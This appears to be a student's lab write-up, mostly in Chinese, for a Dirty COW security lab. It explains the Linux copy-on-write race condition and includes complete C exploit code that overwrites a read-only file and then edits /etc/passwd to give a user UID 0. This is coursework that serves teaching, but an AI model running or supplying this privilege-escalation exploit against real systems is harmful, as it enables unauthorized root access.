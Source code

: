 # Dirty COW Attack Lab

> 1120162015 李博

## Task 1: Modify a Dummy Read-Only File

### Create a Dummy File

首先创建文件`zzz`如下图，并设置权限为`644`，即只有`root`用户能进行写操作。

![task1-setup](../images/lab7-task1-setup.png)

###  原理

使用`gcc cow_attack.c -lpthread`编译源码，关键在`writeThread`和`madviseThread`这两个函数，代码如下。

```c
void *writeThread(void *arg)
{
  char *content= "******";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
```

`writeThread`函数通过`/proc/self/mem`获取进程的内存内容，并循环进行`write`操作。

`madviseThread`函数通过`madvise`函数循环将`Copy-On-Write`机制产生的复制页消除。

由于`write`函数不是原子性的，即其中包含多个步骤。

1.  通过follow_page_mask请求获取可写的内存页，发生缺页中断，接着调用faultin_page从磁盘中调入内存页。
2.  再次调用follow_page_mask请求可写内存页，由于内存页只读，故调用faultin_page进行COW操作，产生一个可写的内存页。此时FOLL_WRITE标志位消除，即请求可写标志位消除。
3.  调用follow_page_mask请求可写内存页，获取到第二步中复制的可写内存页，结束。

竞争条件漏洞在于在retry循环中，第一个进行的操作是`cond_resched`，该函数作用是主动放权，等待调度。

这就使得在上述第二步进行COW操作并消除FOLL_WRITE标志位后，能够利用条件竞争使得接下来调用`madvise`函数，将刚产生的可写内存页销毁。

那么接着调用follow_page_mask请求可写内存页时就会产生缺页中断，调用faultin_page函数，由于FOLL_WRITE标志位被消除，系统认为此时请求的是可读页，故返回只读的内存页。

最后就获得了只读的数据页进行写操作。

### Launch the Attack

结果如下图，可以看到对于普通用户只读的文件`zzz`内容被修改。

![task1-result](../images/lab7-task1-result.png)

## Task 2: Modify the Password File to Gain the Root Privilege

首先创建用户`l1b0`，如下图。

![task2-adduser](../images/lab7-task2-adduser.png)

exp如下

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/etc/passwd", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "l1b0:x:1001");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "l1b0:x:0000";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}

```

目的是将`/etc/passwd`中的`l1b0:x:1001`修改为`l1b0:x:0000`。

编译运行，结果如下图。

![task2-result](../images/lab7-task2-result.png)

可以看到用户`l1b0`拥有了root权限，原理和task1相同，只是修改对象变为`/etc/passwd`。